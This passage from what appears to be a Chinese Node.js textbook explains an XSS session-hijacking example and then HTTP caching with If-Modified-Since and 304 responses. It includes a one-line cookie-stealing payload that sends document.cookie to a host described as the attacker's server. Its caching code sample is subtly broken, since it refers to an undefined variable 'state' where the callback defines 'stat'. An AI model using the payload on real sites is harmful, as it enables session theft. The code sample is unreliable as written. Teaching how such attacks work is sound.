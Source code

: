 ```sh
http://t.cn/fasdlfj
# 或再次压缩
http://url.cn/fasdlfb
```

然后将最终的短网址发送给某个登录的在线用户。这样依赖，这段 hash 中的脚本将会在这个用户的浏览器中执行，而这段脚本的内容如下：

```js
location.href = 'http://c.com/?' + document.cookie;
```

这段代码将该用户的 Cookie 提交给了`c.com`站点，这个站点就是攻击者的服务器，他也能拿到该用户的 Session 口令。然后他在客户端中用这个口令伪造 Cookie，从而实现了伪装用户的身份。如果该用户是网站管理员，就可能造成极大的危害。

XSS 造成的危害远远不止这些，这里就不再过多介绍。在这个案例中，如果口令中有用户的客户端信息的签名，即使口令被泄露，除非攻击者与用户客户端完全相同，否则不能实现伪造。

### 8.1.6 缓存

我们知道软件的架构经历过一次 C/S 模式到 B/S 模式的演变，在 HTTP 之上构建的应用，其客户端除了比普通桌面应用具备更轻量级的升级和部署等特性之外，在跨平台、跨浏览器、跨设备上也具备独特的优势。传统客户端在安装后的应用过程中仅仅传输数据，Web 应用还需要传输构成界面的组件（HTML、JavaScript、CSS 文件等）。这部分内容在大多数场景下并不经常变更，却需要在每次的应用中向客户端传递，如果不进行处理，那么它将造成不必要的带宽浪费。如果网络速度交叉，就需要花费更多时间来打开页面，对于用户体验就会造成一定的影响。因此节省不必要的传输，对用户和对服务提供者来说都有好处。

为了提供性能，YSlow 中也提到几条关于缓存的规则。

- 添加 Expires 或 Cache-Control 到报文头中。
- 配置 ETags。
- 让 Ajax 可缓存。

这里我们展开这几条规则的来源。如果让浏览器缓存我们的静态资源，这也是一个需要由服务器和浏览器共同协作完成的事情。RFC 2616 规范对此有一定的描述，只有遵循约定，整个缓存机制才能有效建立。通常来说，POST、DELETE、PUT 这类带来行为性的请求操作一般不做任何缓存，大多数缓存只应用在 GET 请求中。

简单来说，本地没有文件时，浏览器必然会请求服务器端的内容，并将这部分内容放置在本地的某个缓存目录中。在第二次请求时，它将本地文件进行检查，如果不能确定这份本地文件是否可以直接使用，它将发起一次条件请求。所谓条件请求就是普通的 GET 请求报文中，附带一个 If-Modified-Since 字段。

它将询问服务器端是否有更新的版本，本地文件的最后修改时间。如果服务器端没有新的版本，只需响应一个 304 状态码，客户端就使用本地版本。如果服务器端有新的版本，就将新的内容发送给客户端，客户端放弃本地版本。

```js
var handle = function (req, res) {
  fs.stat(filename, function (err, stat) {
    var lastModified = state.mtime.toUTCString();
    if (lastModified === req.headers['if-modified-since']) {
      res.writeHead(304, 'Not Modified');
      res.end();
    } else {
      fs.readFile(filename, function (err, file) {
        var lastModified = state.mtime.toUTCString();
        res.setHeader('Last-Modified', lastModified);
        res.writeHead(200, 'Ok');
        res.end(file);
      });
    }
  });
};
```
